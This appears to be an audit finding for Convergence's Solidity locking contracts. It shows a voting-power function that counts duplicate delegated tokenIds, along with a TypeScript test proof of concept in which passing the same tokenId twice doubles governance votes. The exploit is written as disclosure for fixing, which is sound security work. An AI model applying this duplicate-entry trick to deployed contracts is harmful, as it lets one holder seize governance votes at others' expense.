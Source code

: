 ```solidity
function mgCvgVotingPowerPerAddress(address _user) public view returns (uint256) {
        uint256 _totalMetaGovernance;
        ...
        /** @dev Sum voting power from delegated (allowed) tokenIds to _user. */
        for (uint256 i; i < tokenIdsDelegateds.length; ) {
            uint256 _tokenId = tokenIdsDelegateds[i];
            (uint256 _toPercentage, , uint256 _toIndex) = _lockingPositionDelegate.getMgDelegateeInfoPerTokenAndAddress(
                _tokenId,
                _user
            );
            /** @dev Check if is really delegated, if not mg voting power for this tokenId is 0. */
            if (_toIndex < 999) {
                uint256 _tokenBalance = balanceOfMgCvg(_tokenId);
                _totalMetaGovernance += (_tokenBalance * _toPercentage) / MAX_PERCENTAGE;
            }

            unchecked {
                ++i;
            }
        }
        ...
❌    return _totalMetaGovernance; //@audit total voting power for the tokenID which will be inflated by adding the same tokenID multiple times
    }
```

https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L330

### PoC

Add in balance-delegation.spec.ts:

```ts
    it("Manage tokenIds for user10 with dupes", async () => {
        let tokenIds = {owneds: [], mgDelegateds: [1, 1], veDelegateds: []};
        await lockingPositionDelegate.connect(user10).manageOwnedAndDelegated(tokenIds);
    });

    it("Checks mgCVG balances of user10 (delegatee)", async () => {
        const tokenBalance = await lockingPositionService.balanceOfMgCvg(1);

        // USER 10
        const delegatedPercentage = 70n;

        //@audit: The voting power is multiplied by 2 due to the duplicate
        const exploit_multiplier = 2n;
        const expectedVotingPower = (exploit_multiplier * tokenBalance * delegatedPercentage) / 100n;
        const votingPower = await lockingPositionService.mgCvgVotingPowerPerAddress(user10);

        // take solidity rounding down into account
        expect(votingPower).to.be.approximately(expectedVotingPower, 1);
    });

```
## Tool used
